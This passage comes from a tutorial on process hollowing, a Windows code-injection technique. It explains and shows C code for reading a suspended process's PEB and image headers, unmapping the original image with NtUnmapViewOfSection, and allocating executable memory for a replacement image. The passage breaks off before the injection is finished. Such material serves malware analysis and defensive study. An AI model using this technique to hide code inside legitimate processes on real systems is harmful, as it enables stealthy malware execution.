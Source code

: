 			  return;
		}

 
Once the process is created its memory space can be modified using the handle provided by the hProcess member of the PROCESS_INFORMATION structure.

## Gathering Information
First, the base address of the destination image must be located. This can be done by querying the process with NtQueryProcessInformation to acquire the address of the process environment block (PEB). The PEB is then read using ReadProcessMemory. All of this functionality is encapsulated within a convenient helper function named ReadRemotePEB.

PPEB pPEB = ReadRemotePEB(pProcessInfo->hProcess);
 
Once the PEB is read from the process, the image base is used to read the NT headers. Once again ReadProcessMemory is utilized, and the functionality is wrapped in a convenient helper function.

		PLOADED_IMAGE pImage = ReadRemoteImage
		(
			  pProcessInfo->hProcess,
			  pPEB->ImageBaseAddress
		);
 
Carving The Hole
With headers in hand there is no longer a need for the destination image to be mapped into memory. The NtUnmapViewOfSection function can be utilized to get rid of it. 


		printf("Unmapping destination section\r\n");
		 
		HMODULE hNTDLL = GetModuleHandleA("ntdll");
		 
		FARPROC fpNtUnmapViewOfSection = GetProcAddress
		(
			  hNTDLL,
			  "NtUnmapViewOfSection"
		);
		 
		_NtUnmapViewOfSection NtUnmapViewOfSection =
			  (_NtUnmapViewOfSection)fpNtUnmapViewOfSection;
		 
		DWORD dwResult = NtUnmapViewOfSection
		(
			  pProcessInfo->hProcess,
			  pPEB->ImageBaseAddress
		);
		 
		if (dwResult)
		{
			  printf("Error unmapping section\r\n");
			  return;
		}
 
Next, a new block of memory is allocated for the source image. The size of the block is determined by the SizeOfImage member of the source images optional header. For the sake of simplicity the entire block is flagged as PAGE_EXECUTE_READWRITE, but this could be improved upon by allocating each portable executable section with the appropriate flags based on the characteristics specified in the section header.
